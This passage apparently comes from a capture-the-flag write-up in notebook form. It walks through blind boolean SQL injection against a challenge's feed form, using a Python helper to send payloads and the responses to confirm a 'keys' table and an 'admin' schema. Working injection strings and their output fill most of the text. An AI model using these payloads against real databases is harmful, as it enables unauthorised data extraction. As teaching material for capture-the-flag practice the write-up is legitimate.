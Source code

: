 


```python
# Check if there is a table name called 'keys'
query_challenge(
    "' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'keys') != 0 AND '1'='1"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)



Now we know there is a table called `keys`!

To make things cleaner, we can wrap the subquery in another function:


```python
def query_challenge_union(table, condition="'1'='1'"):
    return query_challenge(f"' OR (SELECT COUNT(*) FROM {table} WHERE {condition}) != 0 AND '1'='1")
```


```python
# There, looks cleaner!
query_challenge_union("information_schema.columns", "table_name LIKE 'keys'")
```




    (True, 'Feed with same title already exists!', <Response [500]>)



The next thing we need to find out is the name of the table schema, as we will need that to query the `keys` table later on.

Using some educated guesses, you can try names like `data`, `challenge`, `feed` or others, and eventually we found that the schema was named `admin`.


```python
# No schema called "challenge" with table name "keys"
query_challenge_union("information_schema.columns", "table_name LIKE 'keys' AND table_schema LIKE 'challenge'")
```




    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'keys' AND table_schema LIKE 'challenge') != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)




```python
# Found schema called "admin" with table name "keys"
query_challenge_union("information_schema.columns", "table_name LIKE 'keys' AND table_schema LIKE 'admin'")
```
